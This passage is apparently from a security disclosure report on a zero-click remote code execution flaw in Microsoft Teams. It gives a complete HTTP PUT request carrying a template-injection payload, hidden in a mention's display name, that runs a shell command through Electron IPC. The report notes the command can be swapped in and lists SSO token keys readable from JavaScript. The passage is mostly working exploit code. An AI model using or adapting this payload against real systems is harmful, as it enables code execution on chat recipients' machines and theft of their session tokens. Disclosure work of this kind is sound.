Full HTTP PUT request with RCE payload:
```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: ...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```

! note: change the command, currently set for macOS Catalina as `open /System/Applications/Calculator.app`

**no user interaction is required simply visiting a chat will execute arbitrary code.**


# Supporting materials/references:

[1] - Video demos, screenshots

[2] - https://www.electronjs.org/docs/tutorial/security

# SSO / cookie info

## list of SSO token identifiers in localStorage && cookie parameters available from JavaScript in Microsoft Teams

SSO tokens:
```
adal.nonce.idtoken
ts.09ccd856-c12e-4228-acf6-a19af826be77.auth.skype.token
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.4580fd1d-e5a3-4f56-9ad1-aab0e3bf8f76
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.cf53fce8-def6-4aeb-8d30-b158e7b1cf83
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://*.microsoftstream.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://api.spaces.skype.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://chatsvcagg.teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://emea.presence.teams.microsoft.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming-my.sharepoint.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming-my.sharepoint.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming.sharepoint.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming.sharepoint.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://forms.office.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://loki.delve.office.com/
```